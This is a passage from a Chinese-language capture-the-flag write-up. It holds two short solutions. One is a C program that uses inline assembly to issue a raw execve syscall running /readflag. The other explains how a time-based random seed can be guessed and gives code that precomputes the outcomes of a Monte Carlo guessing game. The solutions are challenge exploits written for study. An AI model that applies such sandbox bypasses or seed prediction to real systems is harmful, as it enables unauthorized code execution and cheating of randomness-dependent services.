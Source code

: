 Flag2：

```c
#include <stdio.h>

const char fn[100]="/readflag";
const char*args[]={fn,NULL};

int main() {
    printf("Hello, world!\n");
    __asm volatile(
        "movq %0,%%rdi\n"
        "movq %1,%%rsi\n"
        "movq $59,%%rax\n"
        "movq %%rsi,%%rdx\n"
        "addq $8,%%rdx\n"
        "syscall\n"
        ::"r"(fn),"r"(args):"rax","rsi","rdi","rdx"
    );
    return 0;
}
```

## 蒙特卡罗轮盘赌

注意到使用的种子是 `(unsigned)time(0) + clock()`，而 `clock()` 在程序刚开始运行时较小，于是可以枚举可能的种子，提前生成好 5 次游戏的结果。

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>

double rand01()
{
	return (double)rand() / RAND_MAX;
}

int main(int argc,char**argv)
{
	srand(atoi(argv[1]));
	int games = 5;
	int win = 0;
	int lose = 0;
	char target[20];
	char guess[2000];
	for (int i = games; i > 0; i--) {
		int M = 0;
		int N = 400000;
		for (int j = 0; j < N; j++) {
			double x = rand01();
			double y = rand01();
			if (x*x + y*y < 1) M++;
		}
		double pi = (double)M / N * 4;
		printf("%1.5f\n", pi);
	}
	return 0;
}
```
